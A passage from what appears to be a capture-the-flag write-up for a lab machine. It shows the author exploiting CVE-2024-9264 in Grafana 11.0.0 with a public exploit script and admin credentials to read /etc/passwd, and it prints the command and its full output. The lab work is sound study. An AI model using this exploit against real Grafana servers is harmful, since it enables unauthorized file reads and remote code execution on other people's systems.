 ![grafana.png](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/refs/heads/master/assets/htb/planning/grafana.png)

we find a grafana instance version 11.0.0, where the `admin` user creds worked

after looking around I found that grafana v11.0.0 is vulnerable to `CVE-2024-9264` leading to file inclusion and RCE

I used [this exploit](https://github.com/nollium/CVE-2024-9264) to confirm and exploit the CVE, I started with reading `/etc/passwd` which only no users with shells except for `root` which was the first sign that it's likely a docker container

```bash
$ python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -f /etc/passwd http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/etc/passwd'):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```
